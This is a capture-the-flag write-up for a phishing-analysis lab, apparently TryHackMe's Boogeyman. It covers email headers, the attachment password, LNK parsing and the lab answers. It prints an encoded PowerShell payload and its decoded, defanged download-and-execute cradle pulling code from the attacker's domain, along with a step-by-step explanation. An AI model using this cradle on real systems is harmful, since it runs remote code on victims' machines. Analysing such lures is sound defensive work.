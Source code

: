 # Task 2: Email Analysis

## Scenario: The Boogeyman is Here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from other finance department employees. This indicates a highly targeted attack on the finance team. Upon checking the latest threat intelligence, the initial Tactics, Techniques, and Procedures (TTPs) used for the malicious attachment are attributed to a new threat group named **Boogeyman**, known specifically for targeting the logistics sector.

**Your task:** Analyze and assess the impact of this compromise, starting with the initial access vector.

---

## Investigation Guide: Analyzing `dump.eml`

Given the initial information, we know that the compromise started with a phishing email. Our first step is to analyze the `dump.eml` file, which is located in the `/home/ubuntu/Desktop/artefacts` directory within the provided VM.

There are two primary ways to analyze the email headers and rebuild the attached payload:

### Method 1: Manual Analysis (Command-Line Tools)

This method involves using basic command-line tools available in the VM to extract and decode information directly from the `.eml` file.

* **Tools:** `cat`, `grep`, `base64`, `sed`.
* **Process:** Manually analyze the contents of `dump.eml`. The encoded payload (often base64) is typically located at the bottom of the file. You will need to extract this string and decode it.

    ```bash
    # Sample command to rebuild the payload, presuming the encoded payload is written in another file, without all line terminators
    # Example: cat <PAYLOAD_FILE> | base64 -d > Invoice.zip
    ```

### Method 2: Using Thunderbird (GUI)

This is often the simpler and more intuitive method for initial email review.

* **Tool:** Thunderbird (pre-installed in the VM).
* **Process:** Double-click the `dump.eml` file to open it directly via Thunderbird. The email's content, headers, and attachments will be presented in a user-friendly interface. The attachment can then be easily saved and extracted.

### Extracting Payload Information with `LNKParse3`

Once the payload from the encrypted archive is extracted (which often results in a `.LNK` file), you will use the `lnkparse` tool to extract detailed information about it.

* **Tool:** `lnkparse`
* **Command Example:**

    ```bash
    ubuntu@tryhackme:~ $ lnkparse <LNK_FILE>
    ```

---

## Questions and Analysis

Please provide your findings and explanations for the following questions:

### 1. What is the email address used to send the phishing email?

The email address can be found by accessing the `dump.eml` file w/ Thunderbird, as shown in the image below.

![2025-06-17T15_37_20](https://github.com/user-attachments/assets/c7b5ba93-4af1-4df1-a3e7-39467c7a1823)

We see that the answer is: agriffin@bpakcaging.xyz

This image can also be used to answer questions 2 & 5.

---

### 2. What is the email address of the victim?

If we check the recipient of the email, we find that the answer is: julianne.westcott@hotmail.com

### 3. What is the name of the third-party mail relay service used by the attacker based on the `DKIM-Signature` and `List-Unsubscribe` headers?

To find this information with Thunderbird, we need to view the source and find the appropriate headers. 

![2025-06-17T15_37_24](https://github.com/user-attachments/assets/c31842ff-77f6-4119-bea3-e11771387754)

Once we do so, we find that the third-party mail relay service is: elasticemail

---

### 4. What is the name of the file inside the encrypted attachment?

To find this information, I downloaded the encrypted attachment to the artefacts directory and used the password provided in `dump.eml` to extract the file. 

![image](https://github.com/user-attachments/assets/2788c98c-a595-43a0-8905-f2d7895dc68b)

Once finished, we see that the name of the file is: Invoice_20230103.lnk

---

### 5. What is the password of the encrypted attachment?

As previously mentioned, we can find this information in the `dump.eml` file using Thunderbird. 

The answer is: Invoice2023!

---

### 6. Based on the result of the `lnkparse` tool, what is the encoded payload found in the `Command Line Arguments` field?

To find this information, we need to open up the terminal. From there we type the command, lnkparse <file_lnk>, as shown in the image below.

![image](https://github.com/user-attachments/assets/8d25a237-a0a3-40c3-9a98-3da95f44edd7)

Once we execute the command, we can find the answer in the output, as shown in the image below.

![image](https://github.com/user-attachments/assets/36778e16-0495-4127-977a-1911b3338083)

The answer is: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

### Analysis

We find that the email contains an attachment that will execute an encoded payload in the command line.

When decoded, we find that the command is as follows: 

iex (new-object net.webclient).downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update') 

As a note, the link above has been defanged. This also applies for the links in the following analysis.


**Step-by-step Breakdown:**

1. iex - This powershell commandlet, short for Invoke-Expression, executes a specified string as a command and returns its results.

2. new-object net.webclient - Creates a new instance of the .NET class System.Net.WebClient. This object allows the script to download data from the internet.

3. .downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update') - Calls the DownloadString method of the WebClient object. This downloads the content at the specified URL (hxxp[://]files[.]bpakcaging[.]xyz/update) as a string. Whatever code is hosted at that URL is fetched as text.


**Putting it together:**

The command: Creates a web client, downloads code from the internet, and executes that code in memory.

Why This Is Dangerous: This is a classic technique used in malware and remote code execution. The code at the external URL could do anything: install software, steal data, create backdoors, etc. Since it’s dynamically downloading and executing code, it's hard to detect statically. Often used in PowerShell-based attacks or fileless malware.

---
